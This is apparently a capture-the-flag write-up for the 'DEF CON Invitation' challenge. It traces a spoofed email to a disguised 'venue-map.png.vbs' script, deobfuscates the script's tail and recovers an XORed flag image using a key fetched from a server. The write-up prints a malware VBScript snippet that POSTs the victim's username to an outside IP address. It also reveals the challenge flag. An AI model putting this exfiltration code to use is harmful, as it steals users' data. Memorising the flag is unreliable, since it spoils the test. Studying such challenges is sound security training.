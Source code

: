 ### DEF CON Invitation
As you all know, DEF CON CTF Qualifier 2023 was really competitive and we didn't make it. 
Surprisingly, 2 months before the finals in Las Vegas, we received an official invitation from Nautilus Institute to 
attend the event. Should we accept the invitation and schedule the trip?
Auther: sahuang

---
[Given file](DEFCON_Finals_Invitation.eml)

So we start out with an email. Looking at the message ID we see `Message-Id: <20230626040116.E7EA75474A4@emkei.cz>` which means that this was made with the fake emailer software emkei which explains how the email address looks real since emkei can send emails from any address without having access to it. So we can move on to looking at the attached calendar invite. 

The body of the calendar invite has two links
`https://storage.googleapis.com/defcon-nautilus/venue-guide.html and https://nautilus.org/`
The venue-guide link leads us to download a file named `venue-map.png.vbs` which is a poor attempt at hiding visual basic code as a png file. 
The vbs file has a lot of code in it, a lot is only relevant to the malware but everything after the final "your data is ours now pls send bitcoin" message is heavily obfuscated and looks strange, why would there be more code after the ransom message?

I picked out all the strange code and placed it in my own vbs file to run. 
[pls.vbs](pls.vbs) (named pls because I was asking nicely for it to work)

The output is as follows:
`c:\temp\defcon-flag.png.compromised `
```
https://download1647.mediafire.com/l188u2d532qg3fOoLpilcI89p0_h4E0cGLjk_uvBUiag7E_rMZ-H5-me9Kr9SQLVQaKSiKcEvJO-EkfTSUqWlrN6SzXgI0LYBh-F5em4IA4iX3tOIGh0Ej46GlwvLOfT8pzvuy91Utej1r2I0jg7YsUNcssPted508dskWRpkAI/yea535hvgp32vmv/defcon-flag.png.XORed
```

```
Dim http:
Set http = CreateObject("WinHttp.WinHttpRequest.5.1")
Dim url: url = "http://20.106.250.46/sendUserData"
With http
    Call .Open("POST", url, False)
    Call .SetRequestHeader("Content-Type", "application/json")
    Call .Send("{""username"":""" & strUser & """}")
End With
res = Msgbox("Thank you for your cooperation!", vbOKOnly+vbInformation, "")
```

The second one is a link to download a file named [defcon-flag.png.XORed](defcon-flag.png.XORed) which, from the name, we can assume is our flag as an image that has been XORed. So now we just need to the key to XOR it back with. 

If we send our own POST request to the url in the third output (I used https://reqbin.com/post-online to do this) with a blank username, we get the following returned:
`{
    "key": "compromised",
    "msg": "Not admin!"
}`

Interesting. So if we instead send admin as the username, we get:
`{
    "key": "02398482aeb7d9fe98bf7dc7cc_ITDWWGMFNY",
    "msg": "Data compromised!"
}`

Very nice. From here I had to play around with cyberchef to work out how to use this key. I ended up converting the key to hex and XORing it with the png.XORED file and got the following image.
![Defcon final flag.png](Defcon final flag.png)
If we then flip the image both vertically and horizontally, we get the flag 
`SEKAI{so_i_guess_we'll_get_more_better_next_year-_-}`

For reference, my final cyberchef recipe was https://gchq.github.io/CyberChef/#recipe=XOR(%7B'option':'Hex','string':'30%2032%2033%2039%2038%2034%2038%2032%2061%2065%2062%2037%2064%2039%2066%2065%2039%2038%2062%2066%2037%2064%2063%2037%2063%2063%205f%2049%2054%2044%2057%2057%2047%204d%2046%204e%2059'%7D,'Standard',false)Render_Image('Raw')Flip_Image('Vertical')Flip_Image('Horizontal')

